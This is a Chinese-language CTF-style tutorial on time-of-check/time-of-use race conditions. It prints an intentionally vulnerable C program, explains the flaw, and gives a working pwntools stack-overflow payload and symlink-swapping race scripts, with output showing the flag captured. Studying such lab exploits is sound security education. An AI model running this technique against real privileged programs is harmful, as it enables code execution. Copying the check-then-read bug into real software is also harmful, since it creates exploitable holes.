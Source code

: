# 题目

## 构造例子

### 源代码

源代码如下

```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <unistd.h>
void showflag() { system("cat flag"); }
void vuln(char *file, char *buf) {
  int number;
  int index = 0;
  int fd = open(file, O_RDONLY);
  if (fd == -1) {
    perror("open file failed!!");
    return;
  }
  while (1) {
    number = read(fd, buf + index, 128);
    if (number <= 0) {
      break;
    }
    index += number;
  }
  buf[index + 1] = '\x00';
}
void check(char *file) {
  struct stat tmp;
  if (strcmp(file, "flag") == 0) {
    puts("file can not be flag!!");
    exit(0);
  }
  stat(file, &tmp);
  if (tmp.st_size > 255) {
    puts("file size is too large!!");
    exit(0);
  }
}
int main(int argc, char *argv[argc]) {
  char buf[256];
  if (argc == 2) {
    check(argv[1]);
    vuln(argv[1], buf);
  } else {
    puts("Usage ./prog <filename>");
  }
  return 0;
}
```

### 分析

可以看出程序的基本流程如下

- 检查传入的命令行参数是不是 “flag”，如果是的话，就退出。
- 检查传入的命令行参数对应的文件大小是否大于 255，是的话，就直接退出。
- 将命令行参数所对应的文件内容读入到 buf 中 ，buf 的大小为 256。

看似我们检查了文件的大小，同时 buf 的大小也可以满足对应的最大大小，但是这里存在一个条件竞争的问题。

如果我们在程序检查完对应的文件大小后，将对应的文件删除，并符号链接到另外一个更大的文件，那么程序所读入的内容就会更多，从而就会产生栈溢出。

### 基本思路

那么，基本思路来了，我们是想要获得对应的`flag`的内容。那么我们只要通过栈溢出修改对应的`main`函数的返回地址即可，通过反汇编以及调试可以获得`showflag`的地址，获得对应的payload

```python
➜  racetest cat payload.py 
from pwn import *
test = ELF('./test')
payload = 'a' * 0x100 + 'b' * 8 + p64(test.symbols['showflag'])
open('big', 'w').write(payload)
```

对应两个条件竞争的脚本为

```sh
➜  racetest cat exp.sh    
#!/bin/sh
for i in `seq 500`
do
    cp small fake
    sleep 0.000008
    rm fake
    ln -s big fake
    rm fake
done
➜  racetest cat run.sh 
#!/bin/sh
for i in `seq 1000`
do
    ./test fake
done
```

其中 exp 用于来竞争在相应的窗口内删除 fake 文件，同时执行符号链接。run 用来执行程序。

### 具体效果

```shell
➜  racetest (sh exp.sh &) && sh run.sh
[...]
file size is too large!!
open file failed!!: No such file or directory
open file failed!!: No such file or directory
open file failed!!: No such file or directory
open file failed!!: No such file or directory
file size is too large!!
open file failed!!: No such file or directory
open file failed!!: No such file or directory
flag{race_condition_succeed!}
[...]
```

其中成功的关键在于对应的 `sleep` 的时间选择。

## 参考

- http://www.cnblogs.com/biyeymyhjob/archive/2012/07/20/2601655.html
- http://www.cnblogs.com/huxiao-tee/p/4660352.html
- https://github.com/dirtycow/dirtycow.github.io